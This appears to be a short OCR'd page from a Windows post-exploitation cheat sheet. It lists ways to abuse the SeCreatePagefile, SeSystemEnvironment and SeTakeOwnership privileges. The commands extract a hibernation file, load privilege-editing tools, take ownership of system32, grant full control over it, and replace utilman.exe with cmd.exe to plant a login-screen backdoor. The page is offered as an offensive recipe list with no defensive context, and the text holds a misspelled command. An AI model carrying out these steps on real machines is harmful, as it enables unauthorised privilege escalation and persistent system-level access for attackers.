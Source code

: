 <a name="abusing-via-secreatepagefile"></a>
# Abusing via SeCreatePagefile

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

HIBR2BIN /PLATFORM X64 /MAJOR 6 /MINOR 1 /INPUT hiberfil.sys /OUTPUT
uncompressed.bin

<a name="abusing-via-sesystemenvironment"></a>
# Abusing via SeSystemEnvironment 

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

.load C:\\dev\\PrivEditor\\x64\\Release\\PrivEditor.dll

2\.

TrustExec.exe -m exec -c \"whoami /priv\" -f

<a name="abusing-via-setakeownership"></a>
# Abusing via SeTakeOwnership 

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\. takeown.exe /f \"%windir%\\system32\"

2\. icalcs.exe \"%windir%\\system32\" /grant \"%username%\":F

3\. Rename cmd.exe to utilman.exe
